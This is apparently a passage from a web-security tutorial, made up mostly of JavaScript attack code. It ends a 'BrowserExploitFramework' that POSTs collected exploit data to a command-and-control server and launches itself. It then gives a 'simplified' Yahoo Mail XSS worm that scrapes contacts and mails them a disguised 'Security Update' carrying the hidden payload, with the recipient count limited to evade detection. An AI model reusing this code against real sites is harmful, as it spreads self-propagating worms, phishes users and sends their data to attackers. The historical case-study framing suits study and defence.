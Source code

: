 ```javascript
            url: window.location.href
        };
        
        await fetch(this.c2Server + '/exploit-data', {
            method: 'POST',
            headers: { 'Content-Type': 'application/json' },
            body: JSON.stringify(exploitData)
        });
        
        console.log('✅ Exploitation complete');
        return exploitData;
    }
}

// Deploy the framework
const framework = new BrowserExploitFramework();
framework.executeFullExploit();
```

## Industry Case Studies and Advanced Scenarios

### Case Study 4: Yahoo Mail XSS (2013)

**Impact**: Millions of email accounts compromised
**Attack Vector**: Stored XSS in email composition
**Propagation**: Self-replicating email worm

**Technical Analysis**:
```javascript
// Simplified version of the Yahoo Mail XSS worm
const yahooXSSWorm = \`
<script>
// Extract contact list
const contacts = [];
document.querySelectorAll('.contact-email').forEach(el => {
    contacts.push(el.textContent);
});

// Compose malicious email
const maliciousEmail = {
    to: contacts.slice(0, 50), // Limit to avoid detection
    subject: 'Important Security Update',
    body: \`
        <div>
            <p>Dear User,</p>
            <p>Please review this important security update:</p>
            <div style="display:none">\${yahooXSSWorm}</div>
            <p>Best regards,<br>Security Team</p>
        </div>
    \`
};

// Send emails automatically
fetch('/compose/send', {
    method: 'POST',
    body: JSON.stringify(maliciousEmail)
});
</script>
\`;
```
